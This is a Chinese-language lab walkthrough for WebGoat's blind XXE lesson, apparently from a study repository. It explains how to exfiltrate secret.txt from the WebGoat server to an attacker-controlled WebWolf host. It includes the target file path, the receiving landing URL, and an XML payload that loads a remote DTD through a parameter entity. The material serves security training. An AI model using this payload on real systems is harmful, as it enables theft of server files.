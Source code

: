 ## lesson7

### bllind xxe

在前面的页面中，我们向您展示了如何用XXE攻击ping服务器，在这次作业中，尝试制作一个DTD，它将文件secret.txt的内容从WebGoat服务器上传到我们的WebWolf服务器上。您可以使用WebWolf来服务您的DTD。secret.txt位于这个位置的WebGoat服务器上，所以您不需要扫描所有目录和文件:
**OS**									**操作系统的位置**
Linux							/home/webgoat/.webgoat - 8.0 - 8088465 / / XXE / secret.txt
尝试使用WebWolf登录页面上传这个文件，例如:http://192.168.56.101:9090/landing?text=contents_file(注意:这个端点在您的完全控制之下)一旦您获得了文件的内容，将它作为一个新的评论发布到页面上，您将解决这个问题。

**hide hints:**

1. 首先把文件上传到攻击者的网站上， 在这种情况下，您不能将外部实体与内部实体组合在一起。 

2. 使用参数实体执行攻击，例如:https://www.acunetix.com/blog/articles/xml-external-entixxe-limitations/ 

3. 可以找到一个示例DTD [[webgoat base url]]/ webgoat /xxe/sampledtd，将这个DTD包含在xml注释中 

4. 用于注释时，请注意替换相应的url:  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment [<!ENTITY % remote SYSTEM "
http://192.168.56.101:9090/files/xinxin/test.dtd"> % remote;]>

<comment><text>test&send;</text></comment>
```

5. 要求借助webwolf来实现XXE盲注，将webgoat的指定目录文件传送到webwolf服务器。 

​    指定了要获取的webgoat的文件（docker环境下） 

   `/home/webgoat/.webgoat-8.0.0.M24/XXE/secret.txt `

​    XXE外部注入用到的接收服务器（根据实际情况修改ip地址）： 

   `http://192.168.56.101:9090/landing?text=contents_file`  

* 几点说明
  1. 通过bp抓包可以看到，请求是XML的形式，是可以直接修改XML实现注入的
  2. 这里是为了讲解XXE盲注，所以一般都需要借助DTD的参数外部实体：**关于参数实体的参考**:[什么是XML外部实体（XXE）攻击](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

构建一个dtd文件托管到webwolf上（也可以托管到自己的本地服务器上）

![](img/XXE6.png)
